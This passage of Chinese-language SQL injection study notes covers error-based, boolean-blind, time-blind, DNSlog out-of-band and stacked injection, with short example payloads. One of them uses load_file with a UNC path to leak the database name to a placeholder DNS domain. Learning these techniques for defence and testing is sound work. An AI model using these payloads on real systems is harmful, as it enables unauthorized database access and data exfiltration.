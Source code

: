 * 查询不回显，但会打印错误信息
* update、insert等语句，会打印错误信息

#### 报错注入使用的方法

* floor()
* extractvalue()
* updatexml()

### 布尔盲注

代码存在sql漏洞，但不回显数据，也不回显错误信息，只返回正确或失败，通过构造语句，返回的真和假来判断数据库信息的正确性

#### 常用函数

* left()
> left(a,b)从左侧截取a的前b位；举例：left(database(),1)>'s'  database()显示数据库的名称
* regexp()
> 正则表达式匹配;举例：select user() regexp() '^r'
* like()
> 举例：select user() like 'ro%'
* substr()、ascii()
> 举例：ascii(substr((select database()),1,1))=98
* ord()、mid()
> 举例：ord(mid(select user(),1,1))=114

### 时间盲注

存在sql漏洞，但页面不显示数据，不回显错误信息，也不提示真假。可以通过构造数据，通过页面的响应时间来判断信息。

时间盲注的关键点在于if()函数

> 举例：if(left(user(),1)='a',0,sleep(3));

### DNSlog盲注

很多场景下，无法看到攻击的回显，但是攻击行为确实生效了，通过服务器以外的其它方式提取数据，包括不限于 HTTP(S) 请求、DNS请求、文件系统、电子邮件等。

windows下的路径有一种命名惯例，名为UNC，本来的作用为共享文件与设备，

UNC路径格式为`\\host-name\share-name\object-name`,”hos-name”部分可以是FQDN,这个特性使得win下load_file的UNC可触发DNS请求，

当然也限制了DNSlog盲注只限于 win 下。

> 举例：select load_file(concat('\\\\',(select database()),'.DNS域名'))
>
>这里有四个“\”,因为转义的原因

### 堆叠注入

关于堆叠注入，要从堆叠查询说起，我们知道每一条SQL语句以“；”结束，能多条语句一起执行

第二条语句不必像联合查询那样要求类型一致，甚至能使用 “update”语句修改数据表。

### 宽字节注入
